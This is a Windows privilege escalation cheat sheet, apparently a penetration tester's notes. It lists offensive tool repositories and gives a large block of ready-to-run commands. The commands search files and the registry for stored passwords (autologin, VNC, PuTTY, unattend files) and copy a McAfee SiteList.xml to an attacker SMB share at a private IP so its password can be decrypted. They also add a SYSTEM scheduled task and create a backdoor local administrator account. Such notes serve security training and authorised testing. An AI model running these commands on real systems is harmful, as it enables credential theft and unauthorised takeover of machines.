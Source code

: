 # Privilege Escalation

## Scripts

* [https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)
* [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [https://github.com/pentestmonkey/windows-privesc-check](https://github.com/pentestmonkey/windows-privesc-check)
* [https://github.com/abatchy17/WindowsExploits](https://github.com/abatchy17/WindowsExploits)
* [windows-exploit-suggester.py](https://github.com/GDSSecurity/Windows-Exploit-Suggester.git)
* [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)
* [https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng)

## Articles

* [http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)
* [https://pentestlab.blog/2017/04/24/windows-kernel-exploits/](https://pentestlab.blog/2017/04/24/windows-kernel-exploits/)
* [https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/](https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/)
* [https://github.com/sagishahar/lpeworkshop](https://github.com/sagishahar/lpeworkshop)
* [https://blog.thehackingnomad.com/cheat-sheet-series/privesc-windows](https://blog.thehackingnomad.com/cheat-sheet-series/privesc-windows)

## Manual Enumeration

```
# Current user and hostname
whoami
whoami /priv
net user <user>
hostname

# Existing users
net user
wmic useraccount list full

# OS version & architecture
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

### Check C:\Windows\System32\ntdll.dll version
http://www.geoffchappell.com/studies/windows/win32/ntdll/history/index.htm

# Processes & services
tasklist /SVC
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
reg query "HKLM\SYSTEM\CurrentControlSet\Services"
sc query state= all

# Networking info
ipconfig /all
route print
netstat -ano

# Firewall
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all

# Scheduled tasks
schtasks /query /fo LIST /v

wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows"

### Create scheduled task
schtasks /create /sc minute /mo 1 /tn "my_task" /tr "COMMAND" /ru "SYSTEM"

### Check what a is doing a scheduled task
schtasks /query /FO LIST /v
type C:\Windows\Tasks\...

# Installed applications & patch level
wmic product get name,version,vendor
wmic qfe get Caption,Description,HotFixID,InstalledOn

# Check for readable/writable files & directories
# leverage accesschk.exe from sysinternals
accesschk.exe -uws "Everyone" "C:\Program Files"
# powershell version
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}

# Enumerate unmounted disks
mountvol

# List device drivers & kernel modules
# powershell
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
# list non-windows drivers, using with sigcheck.exe
driverquery.exe /v /fo csv | ConvertFrom-CSV | ForEach-Object {.\sigcheck.exe -c -nobanner $_.Path | ConvertFrom-CSV -Delimiter ',' | select-object path,publisher,verified | Where-Object {$_.Publisher -ne "Microsoft Windows"}}

# Check binaries that autoelevate
# check status of AlwaysInstallElevated setting. If enabled, any user can run MSI packages with elevated privileges.
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
# check binary manifest using sigcheck from SysInternalsSuite
sigcheck.exe -a -m <full_binary_path>

# Check binary permissions
icacls <full_binary_path>

# Search for interesting files
dir /b /s .
dir /b /s c:\*.txt
dir /b /s *pass*
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
findstr /si password *.txt 
findstr /si password *.txt *.xml *.ini *.config
findstr /spin "password" *.*
dir /b /s Services.xml == ScheduledTasks.xml == Printers.xml == Drives.xml == DataSources.xml
findstr /si password file.xml
dir /s C:\Users

c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

C:\inetpub\wwwroot\web.config

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini

#on target
#search for file SiteList.xml
dir /s/b SiteList.xml
#copy file to kali (after setting up impacket-smbserver)
cp "C:\Users\All Users\McAfee\Common Framework\SiteList.xml" //192.168.194.141/share/tmp

#on kali
#grep encrypted password
grep -i password SiteList.xml
#decrypt password 
python mcafee_sitelist_pwd_decrypt.py [encryptedpassw]

# Check registry entries
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUsername 
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword

# SNMP Parameters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
	#NOTE: if you get redirected, use that redirect 
	reg query "HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\BWP123F42"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s


```

## Create Admin User

```
net user slysandwich slysandwich /add
net localgroup administrators slysandwich /add
```

## Exploits

* JuicyPotato (Server 2008 R2, 2012, 2012 R2, 2016)
* PrintSpoofer
* RogueWinRM
* RoguePotato
